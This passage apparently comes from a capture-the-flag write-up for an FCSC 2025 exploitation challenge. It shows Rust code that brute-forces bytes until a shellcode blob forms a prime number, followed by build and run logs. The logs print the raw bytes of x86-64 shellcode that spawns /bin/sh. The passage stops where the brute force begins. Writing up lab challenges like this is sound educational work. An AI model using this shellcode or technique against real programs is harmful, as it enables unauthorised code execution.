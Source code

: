 ```
        // Try last byte to every prime number
        shellcode.push(0);
        for p in BYTE_PRIMES {
            *shellcode.last_mut().unwrap() = p;
            number = Mpi::from_binary(&shellcode).unwrap();
            if number.is_probably_prime(0x2a, &mut mbed_rng).is_ok() {
                println!("Found number!");
                println!("Number = {:02x?} = {}", number.to_binary().unwrap(), number);
                return;
            }
        }

        // If it failed, set this byte to random number and keep going to next byte
        *shellcode.last_mut().unwrap() = rand_rng.random::<u8>();
        number = Mpi::from_binary(&shellcode).unwrap();

        println!("Failed... trying {:02x?}", number.to_binary().unwrap())
    }
}
```

## Result

Let's compile the shellcode and bruteforce the remaining bytes:

```
➜  02-long-prime-shellcode make
mkdir -p /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build
as -msyntax=intel -o /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.o /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/shellcodes/bin_sh.S
ld --oformat=elf64-x86-64 -o /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.elf /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.o
objcopy -O binary -j .text /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.elf /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.bin
cd /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/shellcode-cracker && cargo r /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.bin
    Finished `dev` profile [unoptimized + debuginfo] target(s) in 0.03s
     Running `target/debug/shellcode-cracker /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.bin`
Selected shellcode /home/micronoyau/Documents/CTF/ctfs/fcsc-2025/pwn/02-long-prime-shellcode/build/bin_sh.bin
Desired MSB for prime number: [48, 8d, 3d, 0f, 00, 00, 00, 48, 31, f6, 48, 31, d2, 48, c7, c0, 3b, 00, 00, 00, 0f, 05, 2f, 62, 69, 6e, 2f, 73, 68, 00] = 500733519669422711764184654288391209859308339123159339336453700633978880
Extended shellcode to match minimum size: [48, 8d, 3d, 0f, 00, 00, 00, 48, 31, f6, 48, 31, d2, 48, c7, c0, 3b, 00, 00, 00, 0f, 05, 2f, 62, 69, 6e, 2f, 73, 68, 00, 46, 93, 77, ff, 65, b5, 88, be, ad, 6f, f9, e5, f3, 2b, 5d, ce, 03, 7d, 5a, 34, 19, de, ed, 19, 13, e6, a8, 14, c9, 7a, c9, 99, 1e, 81, 7f, 44, c0, c8, 6c, 44, db, 69, 1e, f9, fd, 5f, c8, b0, 87, 61, 80, 9e, 3f, 29, 17, c6, 3e, 21, 27, 46, 1a, 3a, 9c, 2b, 7a, 09, f2, 2b, c4, a9, 1e, e9, 96, e3, d5, ac, 3a, 34, 62, e1, 5d, 06, c6, 45, 32, c4, 1d, c7, 76, 3d, c5, 98, 98, 6f, 2d, c3, 4b, 2d] = 50947545412940048806890084286286511119979792320386757417058998695880982031126283318714970488975244833903394467021120152909494085779350559698466954657755119630652960259692101433036851199343736845279182595212224836658648766525298070050837215138768537078326616016954834589233254532010860855161599348347198720813

*** Starting bruteforce ***

```